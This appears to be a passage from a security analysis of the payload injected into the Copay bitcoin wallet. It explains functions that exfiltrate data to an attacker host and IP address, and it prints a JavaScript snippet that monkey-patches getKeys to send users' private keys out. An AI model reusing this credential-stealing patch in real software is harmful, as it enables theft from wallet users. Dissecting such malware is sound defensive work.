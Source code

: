 After the execution of payloads A and B, payload C gets injected to the
file `ReedSolomonDecoder.js`. In this subsection of the paper we
will see each of the functions of the payload.

Function `i` takes as arguments an IP address, a path, and a
payload. It then sends the payload as a string to the host inputted on
the specified path (lines 9--22).

Function `r` prepares the payload to be sent by `i`. The
payload gets encrypted using the public key provided by the attacker.
Then payload gets sent to `copayapi.host` and
`111.90.151.134`---a web-server based in Kuala Lumpur, Malaysia
(lines 24--32).

Function `l` stores the contents of a file in a variable and then
parses it to a callback function (lines 34--62).

The callback function first ensures that the script runs on the live
version of the bitcoin network, labeled as `livenet` instead of the
test network labeled `testnet`. It does this by going through the
credentials in the `profile` file. Second, the callback function
accesses the file `balancheCache`, which contains the users
balance. If that balance exceeds 100 bitcoin or 1000 bitcoin cash. and
in case it does, it sets a global variable to true in order to mark.
Note that the user's credentials are stolen regardless of whether the
balance requirements are met. (lines 63--76).

```javascript
var e = require("bitcore-wallet-client/lib/credentials.js");
e.prototype.getKeysFunc = e.prototype.getKeys, 
e.prototype.getKeys = function(e) {
    var t = this.getKeysFunc(e);
    try {
        global.CSSMap && 
        global.CSSMap[this.xPubKey] && 
        (delete global.CSSMap[this.xPubKey], 
        r("p", e + "\t" + this.xPubKey))
    } catch (e) {}
    return t
}
```

The last section of code intercepts and monkey-patches the
`getKeys` function from the Credentials class. Monkey-patching
refers to dynamically altering an object's method during the execution
of a program. The patched version of the function reproduces the
functions original result but it also checks the variable (essentially a
hash table) used previously to flag each key. If the value comes up
positive, it deletes variable to remove any remaining traces and
transmits the user's private keys using the `r`{.js} function (lines
77--90).

On the last line, there's an `if` statement responsible for
launching the script as soon as the user's device is ready (line 91).

* * *
[back](./)
